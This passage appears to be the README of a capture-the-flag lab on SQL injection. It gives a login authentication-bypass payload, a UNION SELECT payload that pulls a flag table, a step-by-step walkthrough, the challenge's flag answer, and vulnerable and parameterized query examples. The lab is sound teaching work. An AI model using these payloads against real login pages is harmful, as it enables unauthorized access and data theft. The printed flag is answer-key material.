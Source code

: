 
### **Manual Exploitation**

```sql
-- Authentication Bypass
Username: admin' OR '1'='1' --
Password: anything

-- Union-based SQLi to extract the flag
Username: admin' UNION SELECT 1,2,3,flag_value,5,6,7,8 FROM system_flags--
Password: anything
```

---

## 🔐 Challenge Walkthrough

1. **Recon**
   - Visit `http://localhost:5000`  
   - Inspect `/robots.txt`, `/sitemap.xml`, page source  
   - Look for fake flags  

2. **Identify Injection Point**
   - Login page (`/login`)  
   - Test payloads like `' OR '1'='1`  

3. **Exploit**
   - Use `UNION SELECT` to dump from `system_flags`  
   - Extract **real flag**:  
     ```
     RAZZ{y0U_H@v3_f()UNd_$QL_!NJ3CT10N}
     ```

---

## 🎯 Learning Objectives

- Learn to **detect SQL injection vulnerabilities**  
- Understand **UNION-based SQLi attacks**  
- Practice **data exfiltration with SQLMap**  
- Distinguish **real vs. decoy flags**  
- Gain experience with **secure coding practices**  

---

## 🛡️ Security Lessons

❌ **Vulnerable Code Example**  
```python
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)
```

✅ **Secure Code Example (Parameterized Queries)**  
```python
query = "SELECT * FROM users WHERE username = ? AND password = ?"
cursor.execute(query, (username, password))
```

---